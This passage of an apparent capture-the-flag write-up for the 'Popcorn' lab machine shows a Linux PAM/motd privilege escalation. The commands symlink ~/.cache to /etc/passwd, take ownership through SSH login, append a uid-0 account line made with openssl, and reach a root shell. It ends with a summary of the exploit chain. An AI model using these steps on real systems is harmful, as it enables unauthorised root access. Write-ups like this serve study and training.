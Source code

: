 e.g. When a link file ~/.cache is linked to /etc/passwd and www-data logins in using ssh, /etc/passwd's ownership would be www-data:www-data. Then, a root priv line could be add into /etc/passwd to create a root-like user.

- prepare ssh login

```console
www-data@popcorn:/var/www$ mkdir .ssh
www-data@popcorn:/var/www$ ssh-keygen -q -t rsa -N '' -C 'qwe'
Enter file in which to save the key (/var/www/.ssh/id_rsa): 
www-data@popcorn:/var/www$ ls .ssh/
id_rsa  id_rsa.pub
www-data@popcorn:/var/www$ cp .ssh/id_rsa.pub .ssh/authorized_keys
www-data@popcorn:/var/www$ chmod 600 .ssh/authorized_keys 
```

- creata a symbolic link file `~/.cache` to `/etc/passwd`

```console
www-data@popcorn:/var/www$ ln -s /etc/passwd .cache
www-data@popcorn:/var/www$ ls -la .cache 
lrwxrwxrwx 1 www-data www-data 11 Jun 21 22:04 .cache -> /etc/passwd
```

- after logining using www-data's private rsa key, `/etc/passwd` belongs to www-data

```console
www-data@popcorn:/var/www$ ls -l /etc/passwd
-rw-r--r-- 1 www-data www-data 1031 Mar 17  2017 /etc/passwd
www-data@popcorn:/var/www$ echo 'qwe:$1$qwe$D95bkH3CwpH6ffYU7pu0m/:0:0:root:/root:/bin/bash' >> /etc/passwd
```

- generate a root-like user line


```sh
# generate a user line
openssl passwd -1 -salt qwe qwe > hash.txt
# Append this line into passwd file
echo 'qwe:$1$qwe$D95bkH3CwpH6ffYU7pu0m/:0:0:root:/root:/bin/bash' >> /etc/passwd
```

- su to change to qwe

```console
www-data@popcorn:/var/www$ su - qwe
Password: 
root@popcorn:~# id
uid=0(root) gid=0(root) groups=0(root)
```

## Exploit Chain

port recon -> path recon -> phpinfo = file upload ok -> torrent web page -> user register -> torrent upload -> image file upload exploit -> www-data shell -> enum: motd.legal-displayed -> linux pam priv esca -> root shell
